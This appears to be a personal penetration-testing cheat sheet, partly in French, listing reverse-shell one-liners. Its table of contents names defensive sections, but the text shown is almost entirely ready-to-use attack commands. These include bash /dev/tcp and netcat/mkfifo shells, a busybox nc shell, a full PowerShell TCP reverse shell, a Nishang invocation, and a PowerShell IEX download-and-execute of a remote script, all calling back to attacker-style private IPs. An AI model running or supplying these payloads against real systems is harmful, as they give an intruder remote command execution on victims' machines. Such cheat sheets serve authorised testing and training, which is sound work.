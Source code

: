 
https://www.revshells.com/
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary
https://highon.coffee/blog/reverse-shell-cheat-sheet/


- [[#**REVERSE SHELLS**]]
- [[#**BIND SHELLS**]]
- [[#**WEBSHELLS**]]

- [[#MSFVENOM]]

- [[#Importer un Shell interactif TTY]]

- [[#DETECTION & PREVENTION]]
- [[#PROTECTION]]




# **REVERSE SHELLS**

### BASH

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```bash
busybox nc 10.10.14.63 443 -e /bin/bash
```

### POWERSHELL

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### NISHANG

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

ajouter à la fin du script

```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```

Depuis la target 

```powershell
powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')
```
